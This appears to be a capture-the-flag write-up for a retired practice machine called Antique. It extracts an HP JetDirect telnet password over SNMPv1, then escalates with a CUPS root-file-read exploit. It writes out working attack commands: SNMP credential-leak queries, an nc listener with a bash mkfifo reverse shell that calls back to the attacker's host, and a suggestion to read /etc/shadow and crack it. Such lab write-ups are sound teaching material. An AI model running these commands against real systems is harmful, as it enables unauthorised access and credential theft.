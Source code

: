 ```yaml
---
title: "Antique Write-Up"
date: 2025-07-10T14:21:25-05:00
draft: false
author: Jarpiano
tags:
image: /images/antique-banner.png
description:
toc:
center: true
---
```

# Antique Write-Up
Antique is a retired machine highlighting a known vulnerability with HP JetDirect and SNMP.

## Initial Foothold
The description gives us a crucial service to work with and some hints on potential weaknesses. First, let's do a quick `nmap` scan. My favorite is:
```
sudo nmap <IP> -sS -Pn -n --disable-arp
```
This should scan all the major ports. When it finishes, we see that port 23, the Telnet service is open.

We can do another scan to check for SNMP access. This can be done with:
```
sudo nmap <IP> -sU -Pn -n --disable-arp -F
```
We can use `-F` to only scan the top 1024 ports since UDP is pretty slow.

We do in fact have an SNMP service and a version/script `(-sC/-sV)` of port 161 in UDP shows us that it's running SNMPv1 with a `public` community string. We know that SNMPv1 has cleartext credentials so this verifies what we know.

To check for other community strings, I attempted to use `braa` but got the `Invalid value` error. Using snmpwalk, I was able to get a String value of HP JetDirect. This comes from the following command:
```
snmpwalk -v1 -c public <IP>
```

After spending some time combining `braa` and `snmpwalk` with random OID values, I searched up any vulnerabilities with HP JetDirect and SNMP. I was able to land on `CVE-2002-1048` which talked about a cleartext credential exposure using SNMP. Exploit-db gives us some specifics for the OID we should use: https://www.exploit-db.com/exploits/22319.

We can once again used `snmpwalk` to check the data.

```
snmpwalk -v1 -c public <IP> .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

Found it. We got some hex data. If we plug that hex data into a decoder. I personally use CyberChef. After we're finished, we find that `P@ssw0rd@123!!123` showed up along with some other bits. Let's test it out.

```
telnet <IP> 23
```

Once we get the telnet prompt, press enter and we get a password prompt. If we enter our found password, we're able to login! Telnet says that we can use the `?` symbol to check for helpful commands. Doing so gives us the exec command which we can test out with `exec id`. We have access! And doing the following prints out the flag.

![image1](/images/antique-image1.png)

## Privilege Escalation
Since we've got execution access, we can send a reverse shell to our host. First, set up the listener:

```
nc -lvnp 1234
```

Then we can use a bash reverse shell script. The following has yet to fail:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <IP> 1234 >/tmp/f
```

In the above case, I've replaced `sh` with `bash`.

## Privilege Escalation
My first thought was to perform some RPE/LPE. I grabbed a Python script from [0x00string](https://github.com/0x00string/oldays/blob/master/CVE-2015-1158.py) using the known `CVE-2015-1158`. After converting it to Python3 using an online converter and manual changes, it couldn't locate a printer likely due to a version mismatch. I went ahead and found a 1.6.1 exploit, matching our version of CUPS. This exploit takes advantage of CUPS's ability to read files with special permissions.

We can download this locally:

```
wget https://github.com/p1ckzi/CVE-2012-5519/blob/main/cups-root-file-read.sh
```

**Set-up a Python HTTP server**
```
python3 -m http.server 4444
```

And `curl` or `wget` our required file. Applying `chmod +x <FILE>` to it allows us to execute it. Upon execution it gives us the below output. We specify the path `/root/root.txt` to print out the known file.

![image2](/images/antique-image2.png)

Since this does rely on the prior knowledge of a likely file location, we could also grab `/etc/shadow` and crack the root password, or we could try to reformat the Python script we found before. Otherwise, we've found the root flag!

**Fin.**